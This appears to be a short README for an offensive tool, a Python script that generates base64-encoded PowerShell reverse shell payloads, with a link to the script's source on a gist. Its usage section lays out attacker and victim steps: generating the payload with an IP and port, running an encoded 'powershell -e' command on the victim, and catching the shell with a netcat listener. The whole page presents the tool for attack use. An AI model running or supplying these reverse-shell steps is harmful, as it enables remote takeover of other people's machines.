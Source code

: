# Name
Powershell Reverse Shell Payload Generator (Base64 Encoded)

## Usage
```
# On Attacker
python3 mkpsrevshell.py <Rev IP> <Rev Port> 

# On Victim
powershell -e JABjAGwAaQBlAG4AdAAg...

# On Attacker
nc -lvp <Rev Port> 
```

## Source
https://gist.githubusercontent.com/tothi/ab288fb523a4b32b51a53e542d40fe58/raw/40ade3fb5e3665b82310c08d36597123c2e75ab4/mkpsrevshell.py

